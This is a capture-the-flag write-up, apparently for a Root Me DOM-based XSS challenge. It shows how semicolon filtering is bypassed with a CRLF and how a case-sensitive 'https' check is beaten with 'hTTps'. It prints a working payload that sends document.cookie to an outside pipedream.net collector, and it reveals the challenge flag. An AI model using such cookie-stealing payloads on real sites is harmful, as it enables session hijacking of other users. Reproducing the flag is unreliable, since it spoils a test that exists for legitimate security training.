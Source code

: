 # XSS DOM Based - Filters Bypass

In this chall, you won't have to guess the correct number because you will be rewarded nothing. So we will find a way to reward ourselves :D

![anh1]()

I tried to close the single quotes first, then used `;` to end the current javascript command and used alert(1) to check if the page is vulnerable to XSS or not. I entered `a'; alert(1); // ` into the input field.

Then nothing happened so I checked for the sources

![anh2]()

As you can see, the `;` is deleted so I couldn't end the current command and `alert(1)` wouldn't be triggered. Then I tried using `\r\n` and this page seems to be vulnerable.

![anh3]()

Next, I tried to send the cookie to my current server on requestbin. But when I entered `document.location=”https:// eovasfu0mdllq4f.m.pipedream.net”;`, the page told me that

![anh4]()

I changed `https` to `hTTps` to check if the XSS is triggered or not. Fortunately, the challenge doesn't check for case intensitive. So I was able to solve this challenge using the payload below:

```javascript

a'%0D%0Adocument.location='hTTps://eovasfu0mdllq4f.m.pipedream.net/?'.concat(document.cookie)//

```

I used this payload on the main page, then I grabbed the url and send it to admin. Now I think you already know what will happen next :D

![anh5]()

Flag is `rootme{FilTERS_ByPass_DOm_BASEd_XSS}`

![anh6]()